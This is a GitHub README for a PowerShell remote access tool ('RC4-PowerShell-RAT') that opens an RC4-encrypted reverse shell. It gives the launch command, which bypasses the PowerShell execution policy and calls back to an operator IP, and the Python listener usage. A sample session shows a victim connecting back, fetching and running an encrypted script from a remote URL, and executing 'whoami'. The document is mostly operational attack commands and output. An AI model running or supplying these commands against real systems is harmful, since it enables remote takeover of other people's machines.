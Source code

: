 # RC4-PowerShell-RAT
Small powershell reverse shell using RC4 encryption

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```
```
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

$ python PsShellClient.py 0.0.0.0 1111 test
```

# Example
```
powershell -exec bypass Import-Module .\PS-RemoteShell.ps1; PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```

```
$ python PsShellClient.py 10.0.0.144 8080 test
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


[*] Waiting for a connection...
[+] Callback from 10.0.0.144:49758
(192.168.70.133:RINGZER0\ME):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141



(192.168.70.133:RINGZER0\ME):Url >null
(null):Exec >whoami
RINGZER0\ME

(192.168.70.133:RINGZER0\ME):Url >

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
